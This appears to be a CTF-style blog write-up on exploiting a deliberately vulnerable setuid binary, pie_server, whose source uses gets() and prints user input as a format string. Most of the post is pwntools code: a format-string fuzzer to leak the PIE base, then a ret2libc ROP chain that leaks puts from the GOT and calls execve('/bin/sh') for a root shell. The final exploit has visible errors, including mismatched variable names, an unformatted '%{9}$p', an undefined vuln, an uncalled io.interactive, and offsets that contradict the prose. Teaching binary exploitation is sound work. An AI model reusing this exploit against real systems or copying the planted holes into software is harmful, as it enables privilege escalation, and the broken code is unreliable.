

# 08-leak_pie_ret2libc
### 1. General information on the binary
- Name: `pie_server`
- *ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=358390e52d086a4d5ef65c02f2dff0796b81dc69, for GNU/Linux 3.2.0, not stripped*
- Stack Canary: <span style='color:red'>No canary found</span>
- NX: <span style='color:lime'>NX enabled</span>
- PIE: <span style='color:lime'>PIE enabled</span>

### 2. Code Review
```
#include <stdio.h>

void enter_name(){
    char name[64];
    puts("Please enter your name:");
    fgets(name, sizeof(name), stdin);
    printf("Hello ");
    printf(name);
}

void vuln(){
    char buffer[256];
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    enter_name();

    puts("\nGood luck with your ret2libc, you'll never bypass my new PIE protection OR find out where my lib-c library is :P\n");

    vuln();

    return 0;
}
```
The code is vulnerable to `buffer overflow` and `format string vulnerability`. The format string vulnerability is found in `enter_name` function where the `name` array is directly used inside `printf`. The bufferoverflow can be found inside `vuln()` where the function `gets()` is used to fill the buffer called `buffer`.

### 3. General Idea to Exploit the vulnerability
The idea is to first leak some function's address via `format string vulnerability` and then use that address to leak the `piebase`. The little script to fuzz the pointer values which might point to some string can be found below.
```
from pwn import *

exe = './pie_server'

elf = context.binary = ELF(exe, checksec = False)
context.log_level = 'warning'
for i in range(100):
        try:
                p = process(exe)
                p.sendlineafter(b':','%{}$p'.format(i).encode())
                p.recvuntil(b'Hello ')
                result = p.recvline()
                print(str(i)+': '+str(result))
                p.close()
        except EOFError:
                pass
```
Running this code will output something like this:
```
0: b'%0$p\n'
1: b'0x6c6c6548\n'
2: b'(nil)\n'
3: b'(nil)\n'
4: b'0x7fffffffddf0\n'
5: b'0x6\n'
6: b'0xa70243625\n'
7: b'0x7fffffffde27\n'
8: b'0x7fffffffde26\n'
9: b'0x555555555295\n'
10: b'0x7ffff7fba2e8\n'
11: b'0x555555555250\n'
12: b'0x555555555250\n'
13: b'0x21020af943ad6200\n'
...
```
Run this code for 2 3 times and notice which address doesn't change much. For me it is the 11th address  `0x555555555250`. A quick look at gdb and the function at this address is `__libc_csu_init`. Now the offset of this particular function is at certain offset from the base address which can be found in gdb.
```
> info functions
0x0000000000001180  frame_dummy
0x0000000000001185  enter_name
0x00000000000011d6  vuln
0x00000000000011f8  main
0x0000000000001250  __libc_csu_init
0x00000000000012b0  __libc_csu_fini
0x00000000000012b4  _fini
```
Here the offset can be seen as `0x1250`. This offset is always constant from the base address. So `0x555555555250` - `0x1250` = `0x555555554000` is the piebase address.

---
After getting the base address of the piebase next step is leak the address of `libc`. The way to do it is to use the bufferover flow to overwrite `return address`. The `return address` if is of `puts` function with its parameter being address of the `puts` itself then we can leak the address of `libc` by just subtracting the offset of `puts` from the leaked address.

The below code successfully leaks the address of the `puts` function from `Global Address Table`. And then calculate the base address of libc from where the address of `execve` and `/bin/sh` can be calculated.
```
from pwn import *
exe = './pie_server'
elf = context.binary = ELF(exe, checksec=False)
io = process(exe)
offset = 264    #8 bytes after 264 bytes goes to the rip register

#leaking the piebase address
io.sendlineafter(b':','%{9}$p')
io.recvuntil('Hello ')
leaked_addr = int(io.recvline(),16)

info('leaked address: %#x', leaked_addr)
elf.address = leaked_address - 0x1295 # 0x1295 is the offset from piebase to the leaked function address
info('piebase: %#x', elf.address)

pop_rdi = elf.address + 0x12ab # gadget from pop_rdi

payload = flat({
    offset:[
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        vuln
    ]
})
io.sendlineafter(b':p',payload)
io.recvlines(2)

got_puts = unpack(io.recv()[:6].ljust(8,b'\x00'))
info('leaked got_puts %#x', got_puts)
libc_base = got_puts - 0x84420 # 0x84420 is the offset of puts in libc
info('libc base %#x', libc_base)

#calling execve with /bin/sh

execve = libc_base + 0xe3500
bin_sh = libc_base + 0x1b45bd

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        execve
    ]
})
io.sendline(payload)
io.interactive

```


### Thank you for reading the blog post